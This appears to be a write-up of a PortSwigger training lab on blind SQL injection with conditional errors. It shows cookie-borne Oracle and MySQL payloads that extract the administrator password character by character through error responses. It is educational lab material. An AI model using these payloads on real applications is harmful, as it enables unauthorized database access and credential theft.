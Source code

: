 
# Blind SQL injection with conditional errors

This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.

The results of the SQL query are not returned, and the application does not respond any differently based on whether the query returns any rows. If the SQL query causes an error, then the application returns a custom error message.

The database contains a different table called users, with columns called username and password. You need to exploit the blind SQL injection vulnerability to find out the password of the administrator user.

To solve the lab, log in as the administrator user.

Hint: This lab uses an Oracle database. For more information, see the SQL injection cheat sheet.

---------------------------------------------

References: 

- https://portswigger.net/web-security/sql-injection/blind

- https://portswigger.net/web-security/sql-injection/cheat-sheet

---------------------------------------------

There is a SQL injection in the cookie. First we find we do not get errors with the payload:

```
COOKIE'+and'1'='1
```

```
Cookie: TrackingId=9HCLCYU9VeK78knn'+and'1'='1
```



![img](images/Blind%20SQL%20injection%20with%20conditional%20errors/1.png)

In MySQL it would be:

```
COOKIE' AND (SELECT CASE WHEN (1=1) THEN 1/0 ELSE 'a' END)='a
COOKIE' AND (SELECT CASE WHEN (1=2) THEN 1/0 ELSE 'a' END)='a
```

But it is Oracle so we must use:

```
COOKIE' AND (SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE 'a' END FROM dual)='a
COOKIE' AND (SELECT CASE WHEN (1=2) THEN TO_CHAR(1/0) ELSE 'a' END FROM dual)='a
```

```
9HCLCYU9VeK78knn'+AND+(SELECT+CASE+WHEN+(1=1)+THEN+TO_CHAR(1/0)+ELSE+'a'+END+FROM+dual)='a;
9HCLCYU9VeK78knn'+AND+(SELECT+CASE+WHEN+(1=2)+THEN+TO_CHAR(1/0)+ELSE+'a'+END+FROM+dual)='a;
```

With 1=1 we get a 500 error code:



![img](images/Blind%20SQL%20injection%20with%20conditional%20errors/2.png)

With 1=2 we get a 200 code:



![img](images/Blind%20SQL%20injection%20with%20conditional%20errors/3.png)

For the first letter of the administrator user's password we will user (using SUBSTR because it is Oracle):

```
COOKIE' AND (SELECT CASE WHEN ((SUBSTR((SELECT password FROM users WHERE username = 'administrator'),1,1))='a') THEN TO_CHAR(1/0) ELSE 'a' END FROM dual)='a
```

```
9HCLCYU9VeK78knn'+AND+(SELECT+CASE+WHEN+((SUBSTR((SELECT+password+FROM+users+WHERE+username+=+'administrator'),1,1))='a')+THEN+TO_CHAR(1/0)+ELSE+'a'+END+FROM+dual)='a;
```



![img](images/Blind%20SQL%20injection%20with%20conditional%20errors/4.png)

We send this to the Intruder and test all letters and numbers until one generates a 500 error code:



![img](images/Blind%20SQL%20injection%20with%20conditional%20errors/5.png)

We get the first letter is "0":



![img](images/Blind%20SQL%20injection%20with%20conditional%20errors/6.png)

If we continue we get the password 01k6j5tbrjpd9lpdk4zs